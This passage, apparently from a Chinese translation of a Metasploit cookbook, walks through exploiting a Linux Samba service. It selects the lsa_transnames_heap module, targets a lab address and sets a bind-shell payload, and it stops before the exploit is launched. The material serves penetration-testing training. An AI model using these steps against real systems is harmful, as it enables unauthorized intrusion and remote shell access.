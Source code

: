 现在我们已经收集了有关目标的信息。我们的下一步将是为它选择一个漏洞和一个合适的负载。

## 怎么做。。。

渗透 Linux 机器的过程类似于 Windows。遵循以下步骤：

1.  我们所要关注的就是选择正确的漏洞和有效负载。让我们搜索 Metasploit 目录中可用的任何 Samba 漏洞：

    ```
    msf > search Samba 
    ```

2.  该命令将为 Samba 提供各种辅助设备和利用模块的列表。我们将使用 `exploit/linux/samba/lsa_transnames_heap`模块，该模块被列为良好的等级利用。因此，它将具有更高的攻击目标的概率。让我们将漏洞利用设置为活动并设置参数。

    ```
    msf > use exploit/linux/samba/lsa_transnames_heap
    msf exploit(lsa_transnames_heap) > show options
    Module options (exploit/linux/samba/lsa_transnames_heap):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE LSARPC yes The pipe name to use
    Exploit target:
    Id Name
    -- ----
    0 Linux vsyscall
    msf exploit(lsa_transnames_heap) > set RHOST 192.168.56.101
    RHOST => 192.168.56.101
    msf exploit(lsa_transnames_heap) > 
    ```

3.  现在我们的下一个任务是选择有效载荷。我们必须记住一件事，当我们瞄准一台 Linux 机器时，我们必须为我们的渗透过程选择一个 Linux 负载。我们将使用 `linux/x86/shell_bind_tcp`有效载荷，其工作原理与我们在之前的 Windows 配方中分析的 `bind_tcp`有效载荷类似。

    ```
    msf exploit(lsa_transnames_heap) > set payload linux/x86/shell_bind_tcp
    payload => linux/x86/shell_bind_tcp
    msf exploit(lsa_transnames_heap) > show options
    Module options (exploit/linux/samba/lsa_transnames_heap):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    RHOST 192.168.56.101 yes The target address
    RPORT 445 yes Set the SMB service port
    SMBPIPE LSARPC yes The pipe name to use
    Payload options (linux/x86/shell_bind_tcp):
    Name Current Setting Required Description
    ---- --------------- -------- -----------
    LPORT 4444 yes The listen port
    RHOST 192.168.56.101 no The target address 
    ```

4.  我们现在都准备好了，我们的最后一步将是提供剥削命令来开始剥削过程：
